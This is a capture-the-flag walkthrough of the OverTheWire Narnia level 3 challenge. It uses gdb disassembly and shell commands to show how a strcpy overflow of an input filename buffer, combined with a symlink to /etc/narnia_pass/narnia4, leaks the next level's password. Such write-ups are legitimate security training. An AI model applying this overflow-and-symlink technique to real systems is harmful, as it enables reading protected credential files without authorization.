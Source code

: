 The source code for this next binary at first looks very complicated but again this is just a buffer overflow vulnerability again. The overflow occurs in the ifile buffer where a long file name can overwrite the ofile file.

```
narnia3@melinda:~$ gdb -q /narnia/narnia3
Reading symbols from /games/narnia/narnia3...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
0x080484d4 <+0>:     push   %ebp
0x080484d5 <+1>:     mov    %esp,%ebp
0x080484d7 <+3>:     and    $0xfffffff0,%esp
0x080484da <+6>:     sub    $0x70,%esp
0x080484dd <+9>:     movl   $0x7665642f,0x58(%esp)    ;ofile /dev
0x080484e5 <+17>:    movl   $0x6c756e2f,0x5c(%esp)    ;ofile /nul
0x080484ed <+25>:    movl   $0x6c,0x60(%esp)            ;ofile l
0x080484f5 <+33>:    movl   $0x0,0x64(%esp)            ;ofile \0
0x080484fd <+41>:    cmpl   $0x2,0x8(%ebp)
0x08048501 <+45>:    je     0x8048525 <main+81>
0x08048503 <+47>:    mov    0xc(%ebp),%eax
0x08048506 <+50>:    mov    (%eax),%edx
0x08048508 <+52>:    mov    $0x8048710,%eax
0x0804850d <+57>:    mov    %edx,0x4(%esp)
0x08048511 <+61>:    mov    %eax,(%esp)
0x08048514 <+64>:    call   0x80483a0 <printf@plt>
0x08048519 <+69>:    movl   $0xffffffff,(%esp)
0x08048520 <+76>:    call   0x80483d0 <exit@plt>
0x08048525 <+81>:    mov    0xc(%ebp),%eax
0x08048528 <+84>:    add    $0x4,%eax
0x0804852b <+87>:    mov    (%eax),%eax
0x0804852d <+89>:    mov    %eax,0x4(%esp)
0x08048531 <+93>:    lea    0x38(%esp),%eax            ;ifile
....
```

As I showed in the disassemble of the main function in gdb, the ofile is begins to be defined at 0x58 and ifile is at 0x38 which is a length of 32 bytes in length. Since the input for ifile is copied from the user input into the ifile with the strcpy() which does not perform any checks of the length of the input. This means if I give a file name of more then 32 bytes in length I can overwrite the ofile file from /dev/null to whatever I would like.

To begin with I create a file in the /tmp directory called “nsimattstiles” which is where I want the password for the next level to end up, and then made the file world readable and then made a directory within the /tmp directory of called “bbbbbbbbbbbbbbbbbbbbbbbbbbb” which is 27 b’s and then inside that directory I created another directory called /tmp. The entire length of the file name called
```
narnia3@melinda:/tmp$ touch /tmp/nsimattstiles
narnia3@melinda:/tmp$ chmod 777 /tmp/nsimattstiles
narnia3@melinda:/tmp$ cd ./$(python -c'print "b"*27')
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb$ cd ./tmp
narnia3@melinda:~$ python -c'print(len("/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb"))'
32
```
So as you can see in the command outputs above is that the directory name of “/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb” is 32 bytes in length which means the directory called “/tmp” within the “/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb” will begin to overwrite the ofile if passed to the binary. The next step was to link the “/tmp/nsimattstiles” file with the password file using the link command in linux, this means when the nsimattstiles files is cat the file actual cats out the contents of the password file “/etc/narnia_pass/narnia4”.

```
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ ln -s /etc/narnia_pass/narnia4 ./nsimattstiles
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Nov 12 07:50 nsimattstiles -> /etc/narnia_pass/narnia4
```
The next step is just to pass the binary the long filename for the ifile buffer and then cat out my password file.

```
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ /narnia/narnia3 $(python -c'print "/tmp/" + "b"*27 + "/tmp/nsimattstiles"')
copied contents of /tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp/nsimattstil to a safer place... (/tmp/nsimattstil)
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ cat /tmp/nsimattstiles
**********
ÿ/Üÿÿô`narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp/tmp$
```

